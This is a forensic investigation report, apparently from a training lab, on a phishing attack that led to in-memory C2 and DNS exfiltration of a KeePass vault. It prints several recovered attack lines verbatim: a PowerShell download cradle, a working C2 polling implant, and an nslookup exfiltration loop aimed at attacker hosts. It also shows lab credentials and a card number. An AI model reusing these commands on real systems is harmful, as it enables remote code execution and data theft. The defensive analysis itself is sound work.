# Boogeyman 1 Incident Investigation Report

**Case Reference:** `INC-2023-0113-BGM1`  
**Classification:** TLP:AMBER / CONFIDENTIAL  
**Target Organization:** Quick Logistics LLC (Finance Department)  
**Impacted Host:** `QL-WKSTN-5693` (Windows 10 Workstation / `10.10.182.255`)  
**Impacted User:** Julianne Westcott (`j.westcott` / `julianne.westcott@hotmail.com`)  
**Threat Actor Attribution:** Boogeyman Threat Group  
**Incident Date:** January 13, 2023  
**Severity:** Critical (Initial Access → In-Memory C2 → Credential Theft → DNS Exfiltration → Compromised Financial Data)  
**Lead Investigator:** SOC DFIR Team  

---

## 1. Executive Summary

On **January 13, 2023, at 09:25:26 UTC**, an employee in the Finance Department of **Quick Logistics LLC**, Julianne Westcott, received an urgent spear-phishing email purporting to be an invoice payment collection from a trusted supplier, **B Packaging Inc.** The adversary—tracked as the **Boogeyman** threat group—employed a typosquatted lookalike domain (`bpakcaging.xyz`) and routed the email through **Elastic Email** (`15.235.99.80`), achieving valid SPF and DKIM authentication to bypass Microsoft Exchange Online Protection (EOP).

To evade Secure Email Gateway (SEG) sandboxing, the email delivered an encrypted, password-protected ZIP archive (`Invoice.zip`) containing a weaponized Windows Shortcut (`Invoice_20230103.lnk`). The shortcut masqueraded as a Microsoft Excel spreadsheet (`excel.ico`) and silently executed a fileless PowerShell download cradle in a hidden window (`-nop -windowstyle hidden -enc`). 

Upon execution, a second-stage in-memory implant was fetched from `http://files.bpakcaging.xyz/update` (hosted on a Python `SimpleHTTP/0.6 Python/3.10.7` server on `167.71.211.113:80`), establishing an interactive Command and Control (C2) polling channel with `cdn.bpakcaging.xyz:8080` (`159.89.205.40`). The adversary performed host discovery using **Seatbelt**, harvested saved credentials from the local **Microsoft Sticky Notes** database (`plum.sqlite`) using a downloaded SQLite utility (`sq3.exe`), and extracted Julianne's master password:
```text
%p9^3!lL^Mz47E2GaT^y
```

Using this password, the threat actor targeted an encrypted **KeePass Password Safe** database (`protected_data.kdbx`) stored in Julianne's Documents directory. Between **17:31 and 17:34 UTC**, the threat actor staged the KeePass database in memory, converted the binary content into 4,412 hexadecimal characters, and executed an automated DNS tunneling exfiltration loop via **`nslookup`**, transmitting the stolen vault in 50-character subdomain chunks to an external authoritative name server (`167.71.211.113`).

Through rigorous forensic network packet carving of `capture.pcapng`, the DFIR team extracted the DNS queries, deduplicated retransmissions, reassembled the exact 2,206-byte KeePass 2.x database, and decrypted the vault using the recovered master password. Decryption confirmed the compromise of sensitive corporate financial assets: **Quick Logistics LLC's corporate credit card** (`4024007128269551`, CVV: `970`, Exp: `03/2028`). Immediate containment, merchant account freezing, and enterprise credential revocation have been initiated.

---

## 2. Investigation Scope

The scope of this investigation encompasses four interdependent phases:
1. **Phishing & Perimeter Telemetry (`dump.eml`):** Header routing, DKIM/SPF verification, MIME structure, attachment carving, and payload de-obfuscation.
2. **Endpoint Log Telemetry (`powershell.json`):** Windows PowerShell Event ID 4104 (Script Block Logging) on workstation `QL-WKSTN-5693` (`10.10.182.255`) under user context `j.westcott`.
3. **Malware & Artifact Analysis:** Windows Shell Shortcut (`Invoice_20230103.lnk`), downloaded staging binaries (`sb.exe` / `Seatbelt`, `sq3.exe`), application datastores (`plum.sqlite`), and targeted vaults (`protected_data.kdbx`).
4. **Network & Exfiltration Forensics (`capture.pcapng`):** Full packet capture analysis of HTTP payload delivery, C2 beacon communications over HTTP/8080, decimal command-response encoding, DNS tunneling exfiltration, and binary database reconstruction.

---

## 3. Tools and Evidence Sources

### 3.1 Digital Evidence Inventory (Chain of Custody)

Evidence files were acquired directly from the forensic collection image and verified across forensic workstations via cryptographic hashing:

| Evidence File | File Type | Size | SHA-256 Hash |
|---|---|---|---|
| `dump.eml` | RFC 822 Mail Message | 40,714 B | `4cdd0a2f16a9e1578b5c3419eeac9c403f7dce86b12fb3b821e19ce5f534c1fc` |
| `powershell.json` | JSON Event Log Export | 467,736 B | `71075589408ec06e3150a399461556eb55029ae1d3f8fc0f30bcf1bbe821c02d` |
| `capture.pcapng` | PCAP-NG Capture File | 4,213,288 B | `15dba24f3d9ef38dfbe0e33f995d0f8e60aa4f34ced5031c904281028e4f4bab` |
| `Invoice.zip` | Reconstructed Encrypted ZIP | 2,752 B | `b55ee53b18871f811f5a4ec405cd70de6b3f1f7cf28712ab5cb5186cbf551e87` |
| `Invoice_20230103.lnk` | Extracted Windows Shortcut | 2,360 B | `86d5e0589fbd8c90604da954197344801f0579de157510e13492db0c712a0cc8` |
| `protected_data_carved.kdbx` | Carved KeePass 2.x Database | 2,206 B | `bf6a5fae84ea7eafe405e3a89e906e00b84f3c7c8dcfe2a49852ce79836ae056` |


*Figure 3.1: Cryptographic SHA-256 Hash Verification across Kali and THM VMs proving digital evidence integrity.*


*Figure 3.2: SHA-256 verification of carved `Invoice.zip` and extracted weaponized shortcut `Invoice_20230103.lnk`.*

### 3.2 Forensic Toolchain
* **Evidence Acquisition & Hashing:** `sha256sum`, `file`, `xxd`
* **MIME & String Processing:** `awk`, `sed`, `tr`, `base64`
* **Shortcut Metadata Forensics:** `lnkparse`, `exiftool`
* **JSON Log Processing:** `jq` (v1.8.2)
* **Network Protocol Analysis:** `Wireshark` (v4.0+), `tshark`
* **Encoding & Decryption Suite:** `CyberChef`, `Python 3.10+`, `keepassxc-cli` (v2.7.4)

---

## 4. Attack Timeline

A complete, granular event log is preserved in [`timeline.md`](timeline.md). Below is the consolidated operational sequence:

```text
[09:25:26 UTC] Spear-Phishing Delivered (dump.eml via Elastic Email / 15.235.99.80)
       │
[User Action]  Julianne Westcott unzips Invoice.zip with 'Invoice2023!' and clicks Invoice_20230103.lnk
       │
[17:10:07 UTC] Stage-1 Fileless Download Cradle executes:
       │       iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')
       │       (Wireshark Frame 33256: Python/3.10.7 SimpleHTTP responds 200 OK)
       │
[17:10:09 UTC] In-Memory C2 Polling Loop Established to cdn.bpakcaging.xyz:8080 (159.89.205.40)
       │
[17:12 - 17:18 UTC] Attacker conducts situational awareness & runs Seatbelt.exe -group=user
       │
[17:23:38 UTC] Attacker downloads sq3.exe from files.bpakcaging.xyz/sq3.exe
       │
[17:25:38 UTC] Attacker dumps Sticky Notes DB (plum.sqlite); Frame 44467 returns KeePass password
       │       Decoded Credential: %p9^3!lL^Mz47E2GaT^y
       │
[17:31:48 UTC] Attacker stages C:\Users\j.westcott\Documents\protected_data.kdbx in memory
       │
[17:32:23 UTC] Raw bytes converted to Hexadecimal format ($hex = ToString X2)
       │
[17:32:41 UTC] Exfiltration executed via nslookup DNS queries toward 167.71.211.113
       │       (89 deduplicated chunks, 4,412 hex characters, 2,206 bytes)
       │
[DFIR Carving] KeePass database reconstructed, unlocked with password, revealing Quick Logistics corporate card
```

---

## 5. Phase 1 Forensic Analysis: Phishing & Initial Access (`dump.eml`)

### 5.1 Phishing Evasion via Legitimate Mail Infrastructure
The threat actor registered lookalike domain `bpakcaging.xyz` (typosquatting legitimate vendor `bpackaging.xyz`) and abused **Elastic Email** relay services (`15.235.99.80`). Because the message was authenticated with valid DKIM signatures (`d=elasticemail.com`) and passed SPF verification (`Received-SPF: Pass`), corporate email security gateways allowed delivery directly to Julianne Westcott's inbox.

Visual deception was reinforced through a professional corporate invoice collection notice and an embedded 1x1 tracking pixel (`http://tracking.bpakcaging.xyz/tracking/open?msgid=HPk2p-JE_jYbkWIRB-SmuA2&c=0`) used to confirm delivery.


*Figure 5.1: Extraction of critical email headers demonstrating SPF pass, Elastic Email DKIM signature, and sender-recipient routing.*

### 5.2 Living-Off-the-Land Execution (LOLBin)
The initial payload avoided dropping an untrusted `.exe`. Instead, the shortcut invoked `powershell.exe` with execution policy bypass flags (`-nop -windowstyle hidden -enc`). Metadata analysis revealed that the attacker disguised the shortcut using Microsoft Excel's icon (`C:\Users\Administrator\Desktop\excel.ico`) and configured the window state to `Show Minimized No Activate`.


*Figure 5.2: Shortcut file metadata demonstrating Excel icon masquerading and obfuscated Base64 PowerShell execution parameters.*

Decoding the Base64 command revealed a classic fileless download cradle:
```powershell
iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')
```

---

## 6. Phase 2 Forensic Analysis: Endpoint Telemetry (`powershell.json`)

Endpoint telemetry was extracted from Windows Event ID 4104 records using `jq`. Filtering out benign internal PowerShell engine noise (`Set-StrictMode`, `$_.OriginInfo`) revealed the threat actor's exact command sequence:

### 6.1 In-Memory C2 Polling Loop (Record ID 536 / 17:10:09 UTC)
```powershell
$s='cdn.bpakcaging.xyz:8080'; $i='8cce49b0-b86459bb-27fe2489'; $p='http://';
$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/8cce49b0 -Headers @{"X-38d2-8f49"=$i};
while ($true) {
    $c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/b86459bb -Headers @{"X-38d2-8f49"=$i}).Content;
    if ($c -ne 'None') {
        $r=iex $c -ErrorAction Stop -ErrorVariable e;
        $r=Out-String -InputObject $r;
        $t=Invoke-WebRequest -Uri $p$s/27fe2489 -Method POST -Headers @{"X-38d2-8f49"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')
    }
    sleep 0.8
}
```

### 6.2 Host Enumeration (Record ID 553 & 630 / 17:12 & 17:18 UTC)
After an initial attempt to download `Invoke-Seatbelt.ps1` from GitHub was abandoned, the attacker fetched a compiled utility (`sb.exe` / `Seatbelt.exe`) from `http://files.bpakcaging.xyz/sb.exe` and executed:
```powershell
Seatbelt.exe -group=user;pwd
```


*Figure 6.1: PowerShell Event ID 4104 records revealing Seatbelt enumeration download and in-memory execution.*

### 6.3 Credential Harvesting: Sticky Notes (Record ID 703 & 724 / 17:23 & 17:25 UTC)
The attacker downloaded a command-line SQLite utility (`sq3.exe`) and targeted the Windows Sticky Notes local datastore:
```powershell
iwr http://files.bpakcaging.xyz/sq3.exe -outfile sq3.exe;pwd
.\Music\sq3.exe AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite "SELECT * from NOTE limit 100";pwd
```


*Figure 6.2: PowerShell Script Block log showing sq3.exe execution targeting plum.sqlite.*

### 6.4 Data Staging, Hex Encoding & DNS Exfiltration Loop (Record ID 741, 768, 774 / 17:31 - 17:32 UTC)
```powershell
# 1. Staging into memory
$file='C:\Users\j.westcott\Documents\protected_data.kdbx'; $destination = "167.71.211.113"; $bytes = [System.IO.File]::ReadAllBytes($file);

# 2. Byte-to-Hex conversion
$hex = ($bytes|ForEach-Object ToString X2) -join '';

# 3. DNS tunneling loop via nslookup
$split = $hex -split '(\S{50})'; ForEach ($line in $split) { nslookup -q=A "$line.bpakcaging.xyz" $destination;} echo "Done";
```


*Figure 6.3: PowerShell Script Block log documenting ReadAllBytes staging, ToString X2 hex encoding, and nslookup iteration.*

---

## 7. Phase 3 Forensic Analysis: Network Traffic & Decryption (`capture.pcapng`)

### 7.1 Payload Delivery Infrastructure (Frame 33256)
Filtering HTTP traffic for payload downloads revealed that workstation `10.10.182.255` requested `http://files.bpakcaging.xyz/update` at 17:10:07 UTC. Wireshark Frame 33256 captures the server's HTTP 200 OK response. Inspection of the HTTP headers identified the web server software utilized by the adversary:
```http
HTTP/1.1 200 OK
Server: SimpleHTTP/0.6 Python/3.10.7
Date: Fri, 13 Jan 2023 17:10:07 GMT
Content-type: application/octet-stream
Content-Length: 1042
```
This confirms the threat actor utilized Python's built-in `http.server` module running on **Python 3.10.7** on host `167.71.211.113:80`.


*Figure 7.1: Wireshark inspection of Frame 33256 revealing Server header 'SimpleHTTP/0.6 Python/3.10.7' on files.bpakcaging.xyz.*

### 7.2 C2 Protocol, HTTP POST Method & Decimal Encoding Mechanism
The in-memory implant communicated with `cdn.bpakcaging.xyz:8080` (`159.89.205.40`). When commands produced execution output, the implant transmitted the results via **HTTP POST** to `/27fe2489`.

Rather than transmitting plain text or standard Base64, the PowerShell beacon executed:
```powershell
[System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' '
```
This routine converted UTF-8 characters into an array of space-separated decimal integer ASCII byte values. Because the request used `Content-Type: application/x-www-form-urlencoded`, Wireshark routed the string into `urlencoded-form.key`.

Wireshark TCP Stream 752 (Frame 44467) displays the raw POST payload:
```http
POST /27fe2489 HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.1682
X-38d2-8f49: 8cce49b0-b86459bb-27fe2489
Host: cdn.bpakcaging.xyz:8080
Content-Length: 6418
Connection: Keep-Alive

123 34 105 100 34 58 34 56 99 99 101 52 57 98 48 45 98 56 54 52 53 57 98 98 45 50 55 102 101 50 52 56 57 34 44 34 114 101 115 117 108 116 34 58 34 ...
```


*Figure 7.2: Wireshark Follow HTTP Stream on Frame 44467 showing HTTP POST method and space-delimited decimal ASCII payload.*

### 7.3 Credential Theft & Extraction (`plum.sqlite` Master Password)
The decimal payload from Frame 44467 was extracted and decoded using CyberChef recipe `From Decimal (Delimiter: Space)` and verified via Python:
```python
decimal_bytes = [int(x) for x in raw_payload.split()]
print(bytes(decimal_bytes).decode('utf-8', errors='ignore'))
```

The decoded text contained the raw tabular output of the SQLite query against `plum.sqlite`. Among the user's stored desktop notes was Julianne Westcott's KeePass master password:
```text
id: 5
Text: KeePass Master Password:
%p9^3!lL^Mz47E2GaT^y
```


*Figure 7.3: CyberChef From Decimal decoding revealing Julianne Westcott's KeePass master password.*


*Figure 7.4: Decoded terminal output confirming the extraction of master password %p9^3!lL^Mz47E2GaT^y from Sticky Notes.*

### 7.4 DNS Exfiltration Protocol (MITRE ATT&CK T1048.003)
Inspection of outbound DNS traffic revealed thousands of recursive `A` record queries originating from `10.10.182.255` directed specifically to `167.71.211.113`. Each query carried a 50-character hexadecimal prefix prepended to `.bpakcaging.xyz`:
```text
03D9A29A67FB4BB50100030002100031C1F2E6BF714350BE58.bpakcaging.xyz
05216AFC5AFF03040001000000042000AF4DE7A467FADFBFEB.bpakcaging.xyz
EB78AE194B03926333E0CC968727A1FF8CC4CD5151FAAC0520.bpakcaging.xyz
...
```


*Figure 7.5: Wireshark display of DNS queries showing 50-character hexadecimal labels routed to rogue nameserver 167.71.211.113.*

### 7.5 Binary Carving, Reconstruction & Vault Decryption
Because the external nameserver (`167.71.211.113`) did not return standard DNS replies, Windows `nslookup` retransmitted each query multiple times, creating duplicated chunks and query retransmissions across the network capture.

To forensically carve the exfiltrated database, the DFIR team developed a deduplication and carving pipeline:
```python
import pyshark, binascii

# Extract unique sequential hex chunks from capture.pcapng
chunks = []
last_chunk = ""
# Deduplicate consecutive retransmissions
for qname in extracted_queries:
    chunk = qname.split('.bpakcaging.xyz')[0]
    if len(chunk) in (48, 50) and all(c in '0123456789ABCDEFabcdef' for c in chunk):
        if chunk != last_chunk:
            chunks.append(chunk)
            last_chunk = chunk

hex_stream = "".join(chunks)
binary_data = binascii.unhexlify(hex_stream)
with open("protected_data_carved.kdbx", "wb") as f:
    f.write(binary_data)
```

Carving Results:
* **Total Deduplicated Chunks:** 89 chunks
* **Total Hex Characters:** 4,412 characters
* **Reconstructed File Size:** 2,206 bytes
* **Header Magic Bytes:** `03 D9 A2 9A 67 FB 4B B5` (Confirmed KeePass 2.x KDBX File Signature)

The reconstructed database was unlocked using `keepassxc-cli` and the recovered master password:
```bash
keepassxc-cli show protected_data_carved.kdbx -s --all "Homebanking/Company Card"
```

The unlocked vault revealed that the adversary successfully exfiltrated Quick Logistics LLC's corporate credit card:
* **Title:** Company Card
* **Account Name:** Quick Logistics LLC
* **Account Number:** `4024007128269551`
* **Expiration Date:** `3/2028`
* **CVV:** `970`
* **UUID:** `{9b5464ad-7bae-c145-adbd-b13d867f4f85}`


*Figure 7.6: Successful terminal decryption of carved KeePass vault exposing corporate credit card 4024007128269551.*

---

## 8. Indicators of Compromise (IOCs)

A complete catalog of indicators is documented in [`iocs.md`](iocs.md). Below is the master high-confidence IOC inventory:

| Indicator Type | Value | Classification / Context |
|---|---|---|
| **Domain** | `bpakcaging.xyz` | Phishing Sender Domain & DNS Exfiltration Suffix (Typosquat). |
| **Domain** | `files.bpakcaging.xyz` | Payload Hosting (`/update`, `sb.exe`, `sq3.exe`). |
| **Domain** | `cdn.bpakcaging.xyz` | In-memory C2 Beacon Server. |
| **Domain** | `tracking.bpakcaging.xyz` | Phishing Read-Receipt Tracking Pixel. |
| **IP Address** | `15.235.99.80` | Elastic Email Relay Outbound MTA. |
| **IP Address** | `159.89.205.40` | Attacker C2 Infrastructure (`cdn.bpakcaging.xyz:8080`). |
| **IP Address** | `167.71.211.113` | Payload Server (`files.bpakcaging.xyz`) & Rogue DNS Receiver. |
| **Email Address** | `agriffin@bpakcaging.xyz` | Threat Actor Phishing Sender Identity. |
| **File (SHA-256)** | `4cdd0a2f16a9e1578b5c3419eeac9c403f7dce86b12fb3b821e19ce5f534c1fc` | Phishing Email Capture (`dump.eml`). |
| **File (SHA-256)** | `b55ee53b18871f811f5a4ec405cd70de6b3f1f7cf28712ab5cb5186cbf551e87` | Password-Protected Attachment (`Invoice.zip`). |
| **File (SHA-256)** | `86d5e0589fbd8c90604da954197344801f0579de157510e13492db0c712a0cc8` | Weaponized Shortcut (`Invoice_20230103.lnk`). |
| **File (SHA-256)** | `bf6a5fae84ea7eafe405e3a89e906e00b84f3c7c8dcfe2a49852ce79836ae056` | Carved KeePass Vault (`protected_data_carved.kdbx`). |
| **Server Banner** | `SimpleHTTP/0.6 Python/3.10.7` | Adversary Web Server Software on `167.71.211.113:80`. |
| **C2 Header** | `X-38d2-8f49: 8cce49b0-b86459bb-27fe2489` | Implant Session Identification Header. |
| **Compromised Asset**| `%p9^3!lL^Mz47E2GaT^y` | KeePass Database Master Password. |
| **Compromised Asset**| `4024007128269551` (Exp: 03/2028, CVV: 970) | Quick Logistics LLC Corporate Credit Card. |

---

## 9. MITRE ATT&CK Mapping

| Tactic | Technique ID | Technique Name | Evidence in Investigation |
|---|---|---|---|
| **Resource Development** | T1583.001 | Acquire Infrastructure: Domains | Registration of lookalike domain `bpakcaging.xyz`. |
